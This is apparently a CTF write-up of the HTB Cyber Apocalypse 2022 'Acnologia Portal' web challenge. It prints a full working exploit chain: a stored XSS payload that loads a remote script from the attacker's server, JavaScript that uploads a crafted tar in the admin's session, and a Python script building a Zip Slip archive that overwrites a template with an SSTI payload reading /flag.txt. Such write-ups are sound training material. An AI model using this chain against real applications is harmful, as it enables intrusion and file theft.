




# Acnologia Portal
Acnologia Portal is another medium web challenge solved by our team during HTB Cyber Apocalypse 2022. It starts with the login page, where in addition we can create our own new account. 



After successful login, we are redirected to the `/dashboard` page, where is a list of firmwere. 



Main function of the application is to report a bug to the particular firmware, then the bug will be reviewed by the `administrator`. So our first thought was to try XSS.

## XSS

We checked for XSS by trying to send a request to the webhook and it worked!
```

```

## Source Code

The flag is hidden in the file `flag.txt` so there is no way by using only XSS to end the challnege. Source code was given, so let's see what other functions we have.

The admin's behaviour is described in `bot.py` file, its purpose is only to review our bug report. More intrestnig part is in `routes.py`, there are 2 methods where admin's privileges are needed - `review_report()` and `firmware_update()`. The second one caught our attention, the functionality is described in detail in `util.py`.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```
It seems an administrator can upload a tar file to be unpacked to the server, which is an perfect scenario for the `Zip Slip` vulnerability.

## Zip Slip

So the idea is that XSS does the tar file upload and performs the [Zip Slip attack](https://snyk.io/research/zip-slip-vulnerability). I have checked after some code modifiaction if Zip Slip works locally (commented the `@is_admin()` lines) and I was able to replace original files.

Best files to replace in our opinion are the templates, because in case of templates, the application doesn't need to be restarted to load new files. So we have picked `register.html`, and after the tar file upload, `/register` page is going to read the flag using template engine.

```python
import tarfile    
import io            
import requests
import time
    
fname = "../../../../../../../../../app/application/templates/register.html"                    
data = b"""                                                                           
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
"""                                       
source = io.BytesIO(initial_bytes=data)                                                  

fh = io.BytesIO()                           
with tarfile.open(fileobj=fh, mode='w:gz') as tar:
    info = tarfile.TarInfo(fname)   
    info.size = len(data)
    info.mtime = time.time()            
    tar.addfile(info, source)                                                                                   

with open('test.tar.gz', 'wb') as f:
    f.write(fh.getvalue())
    
f.close()
```

## XSS payload
After some time digging through google we stumble upon this [article](https://www.dubget.com/file-upload-via-xss.html). So we gracefully stole that code and move one to the exploitation
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "base64 encoded tar";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('Plugin', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = 'http://webapp/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.send(formData);
```

## Exploit chain
So whole idea is login, then use XSS to deliver malicious `tar` file (in context of admin user). Crafted `tar` file overwrite one of the template with `SSTI` payload, navigate to that overwritten template and read the flag.

### First step 
Generating malicious `tar` file and encoding it with `base64`.
```bash
cat test.tar.gz | base64 -w0
H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA 
```
### Second step
Now we need to trigger the XSS vulnerability and to do that we used simple script
```python
import requests
#url = "http://178.62.119.24:32530"
url = "http://172.17.0.2:1337"
proxies = {"http" : "127.0.0.1:8080"}
header = {"Content-Type": "application/json"}
s = requests.Session()
register = s.post(url=url + "/api/register", data='{"username":"test", "password":"test"}', headers=header, proxies=proxies)
login = s.post(url=url + "/api/login", data='{"username":"test", "password":"test"}', headers=header)
payload = '<script src=\'http://172.17.0.1:8000/asdf.js\'></script>'
report = s.post(url=url + "/api/firmware/report", data='{"module_id":"1","issue":"' + payload + '"}', headers=header, proxies=proxies)
print(report.text)
```
The payload here is loading the `asdf.js` file and executing it. Content of this file is
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('file', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = '/api/firmware/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.withCredentials = true;
request.send(formData);
```
After running python script that trigger XSS vulnerability, our local server got hit with request of `asdf.js`

After that if everything went smooth `register.html` should be replaced with content of `flag.txt` file.
